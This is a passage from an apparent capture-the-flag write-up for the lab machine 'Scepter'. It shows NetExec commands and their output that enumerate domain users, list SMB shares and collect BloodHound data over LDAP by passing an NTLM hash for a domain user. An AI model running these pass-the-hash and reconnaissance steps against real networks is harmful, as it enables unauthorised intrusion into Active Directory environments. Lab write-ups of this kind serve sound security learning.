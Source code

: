 ```bash
SMB         10.10.11.65     445    DC01             o.scott                       2024-11-02 01:07:14 0        
SMB         10.10.11.65     445    DC01             M.clark                       2024-11-02 01:07:14 0 
```

i checked users first and now we can extract usernames.

```bash
➜  scepter vim nxcusers.txt
➜  scepter cat nxcusers.txt | awk '{print $5}' > users.txt
➜  scepter cat users.txt 
Administrator
Guest
krbtgt
d.baker
a.carter
h.brown
p.adams
e.lewis
o.scott
M.clark
```

lets check `--shares` but nothing special yet.

```bash
➜  scepter nxc smb 10.10.11.65 -u d.baker -H 18b5fb0d99e7a475316213c15b6f22ce --shares
SMB         10.10.11.65     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.65     445    DC01             [+] scepter.htb\d.baker:18b5fb0d99e7a475316213c15b6f22ce 
SMB         10.10.11.65     445    DC01             [*] Enumerated shares
SMB         10.10.11.65     445    DC01             Share           Permissions     Remark
SMB         10.10.11.65     445    DC01             -----           -----------     ------
SMB         10.10.11.65     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.65     445    DC01             C$                              Default share
SMB         10.10.11.65     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.65     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.65     445    DC01             SYSVOL          READ            Logon server share 
```

okey lets see if we can dump BH data.

```bash
➜  scepter nxc ldap DC01.scepter.htb -u d.baker -H 18b5fb0d99e7a475316213c15b6f22ce         
LDAP        10.10.11.65     389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:scepter.htb)
LDAP        10.10.11.65     389    DC01             [+] scepter.htb\d.baker:18b5fb0d99e7a475316213c15b6f22ce 
➜  scepter nxc ldap DC01.scepter.htb -u d.baker -H 18b5fb0d99e7a475316213c15b6f22ce --bloodhound --dns-server 10.10.11.65 --collection All
LDAP        10.10.11.65     389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:scepter.htb)
LDAP        10.10.11.65     389    DC01             [+] scepter.htb\d.baker:18b5fb0d99e7a475316213c15b6f22ce 
LDAP        10.10.11.65     389    DC01             Resolved collection methods: acl, trusts, group, objectprops, container, dcom, localadmin, psremote, rdp, session
LDAP        10.10.11.65     389    DC01             Done in 00M 17S
LDAP        10.10.11.65     389    DC01             Compressing output into /home/elliot/.nxc/logs/DC01_10.10.11.65_2025-07-11_181529_bloodhound.zip
```
